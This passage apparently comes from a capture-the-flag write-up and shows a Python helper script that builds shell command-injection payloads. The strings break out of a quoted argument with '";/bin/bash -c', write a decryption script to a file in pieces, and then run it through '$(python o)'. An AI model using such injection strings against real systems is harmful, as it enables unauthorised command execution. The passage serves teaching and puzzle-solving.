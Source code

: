 Once the decryption was working flawlessly it became easy to minify it.
I tried a few random flags as well and all worked, so I was confident I
could give it a try. That's when the quoting pain started...


### Generating the final payload, and all that quoting

Auxiliary script to generate the two payloads, with more or less the
correct length:

    with open('d.py') as f:
        src = f.read()
        with open('out.txt', 'w') as g:
            g.write(repr(src))
    print "Full payload: ", src.encode('string_escape')
    cutoff = 80
    t1 = "\";/bin/bash -c \"echo -ne '" +src[:cutoff].encode('string_escape') + "'>o\" #"
    t2 = "\";/bin/bash -c \"echo -ne '{}'>>o\" #".format(src[cutoff:].encode('string_escape'))
    t3 = '$(python o) " -g 70 #'
    print len(t1), t1
    print len(t2), t2
    print len(t3), t3

Things I've learned:

 * The `.encode('string_escape')` trick, otherwise Python quotes quotes
   (as in `'` becomes `''`)
 * Quoting madness: the above script doesn't return the correct result:
   it still needs manually escaping the `"` into `\"` to be inserted in
   the `echo` executed by `bash`.


